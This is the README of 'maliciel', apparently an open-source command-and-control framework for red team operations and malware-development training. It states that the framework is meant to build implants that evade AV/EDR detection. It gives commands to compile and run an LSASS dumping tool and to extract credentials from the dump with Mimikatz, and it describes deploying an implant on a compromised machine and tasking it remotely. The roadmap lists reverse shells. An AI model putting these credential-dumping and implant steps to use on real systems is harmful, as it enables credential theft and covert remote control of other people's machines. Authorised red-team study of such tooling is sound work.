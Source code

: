 <a name="readme-top"></a>
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.9-yellow.svg)](https://www.python.org/) 
[![Docker](https://img.shields.io/badge/Docker-%E2%89%A5%2020.10-orange.svg)](https://www.docker.com/) 
![Docker-compose](https://img.shields.io/badge/docker--compose-%E2%89%A5%201.29-purple.svg)
[![MinGW-w64](https://img.shields.io/badge/MinGW--w64-%E2%89%A5%2010.2-red.svg)](https://www.mingw-w64.org/) 
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
<!-- [![License](https://img.shields.io/badge/License-CC%20Attr--NonCommercial%204.0-red)](https://github.com/t3l3machus/Villain/blob/main/LICENSE.md) -->

<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/SeraRepo/maliciel">
    <img src="images/logo.png" alt="Logo" width="200" height="200">
  </a>

<h3 align="center">maliciel</h3>

  <p align="center">
    A custom C2 made for red team operation.
    <br />
    <a href="https://github.com/SeraRepo/maliciel"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/SeraRepo/maliciel/issues">Report Bug</a>
    ·
    <a href="https://github.com/SeraRepo/maliciel/issues">Request Feature</a>
  </p>
</div>



<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#repository-organization">Repository Organization</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <!-- <li><a href="#license">License</a></li> -->
    <li><a href="#acknowledgments">Acknowledgments</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project

![Product Name Screen Shot](./images/maliciel.png)

maliciel is a project about C2 creation and maldev training. 

The project is divided into two parts: the first is the creation of a Command Center (C2) to create and control implants, and the second is the creation of a resource base for maldev training.

C2 arose from a need for a customised solution for the Red Team, as existing solutions had limited effectiveness. The idea is to create a tool that can generate implants that are undetectable by AV/EDR solutions, discreet and resilient; and to be able to control these implants.

<!-- Add description of the project here-->

<p align="right">(<a href="#readme-top">back to top</a>)</p>



### Repository Organization

The "Project" folder contains the technical solution (maliciel). It is currently composed of three subfolder : the "C2", which is composed of a server and a CLI interface ; the "Implant", which is currently the source code of our implant ; and the "Maliciel", an undetectable shellcode and code injector launcher.

The "Documentation" folder contains all documentation needed to understand and continue the project.



<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- GETTING STARTED -->
## Getting Started

### Prerequisites

The following software are mandatory in order for the project to work:
* Python >= 3.9
* Docker >= 20.10
* docker-compose >= 1.29
* MinGW-w64 >= 10.2

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/SeraRepo/maliciel.git
   ```
2. Install the CLI interface
    - Install the python dependencies
      ```sh
      cd Project/C2/CLI
      python3 -m pip install -r requirements.txt
      ```
    - Launch the CLI
      ```sh
      python3 -m maliciel-C2.py
      ```
3. Install the C2 server
    - On the machine or cloud you want the server to be
    - Clone the repo
      ```sh
      git clone https://github.com/SeraRepo/maliciel.git
      ```
    - Launch the server
      ```sh
      cd Project/C2/
      docker-compose up
      ```
4. Install Packages
	- Install VCPKG
		```sh
		git clone https://github.com/Microsoft/vcpkg.git
		.\vcpkg\bootstrap-vcpkg.bat
		```
	- Install packages
		```sh
		.\vcpkg.exe integrate install
		.\vcpkg.exe install boost-uuid:x64-windows
		.\vcpkg.exe install boost-property-tree:x64-windows
		.\vcpkg.exe install boost-system:x64-windows
		.\vcpkg.exe install cpr:x64-windows
		.\vcpkg.exe install nlohmann-json:x64-windows
		```
5. Usage Dump Lsass
	- Compile with MinGW [LINUX]
		```sh
		cd Project\Implant\maliciel\Dump
		x86_64-w64-mingw32-g++ -O2 dump.cpp -o dump.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
		```
	- Dump Lsass [WIN]
		```sh
		.\dump.exe namedump.dmp
		```
	- Read Dump with Mimikatz [WIN]
		```sh
		.\mimikatz.exe
		sekurlsa::minidump c:\pathOfDump\namedump.dmp
		sekurlsa::logonpasswords
		```


<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- USAGE EXAMPLES -->
## Usage

### Maliciel

See the README.md on the /maliciel folder.

### C2

1. Launch the C2 server, it can be launched localy or in a cloud server
```sh
  cd C2/ 
  sudo docker-compose up
```

2. Change the IP adress on the CLI ('C2/CLI/maliciel-C2.py')

3. Compile the implant via Visual Studio
    
    Open Implant/maliciel.sln via Visual Studion
    
    Run the Build command

4. Launch the executable file on the compromise machine

5. Send command to the C2 server via the CLI

    - Send commmand

      ```sh
      python maliciel-C2.py add-task --task-type [task_name] --option [option1],[option2] 
      ```

    - List commands sent

      ```sh
      python maliciel-C2.py list-tasks
      ```

    - List results returned

      ```sh
      python maliciel-C2.py list-results
      ```

    - List history 

      ```sh
      python maliciel-C2.py list-history
      ```


<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- ROADMAP -->
## Roadmap

- [x] Create the C2 server
- [x] Create the CLI interface
- [x] Create the basic implant
    - [x] Communication with the C2
    - [x] Accept command
    - [x] Spawn Reverse shell
    - [x] Extract LSASS credentials
- [x] Create shellcode injector generator
- [ ] Add linux compilation for the implant
- [ ] Rework CLI interface 
- [ ] Add the generator to the solution
- [ ] Create C++ Shellcode generator
- [ ] Add fileless shellcode to the shellcode injector generator

See the [open issues](https://github.com/SeraRepo/maliciel/issues) for a full list of proposed features (and known issues).

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- LICENSE -->
<!-- ## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p> -->
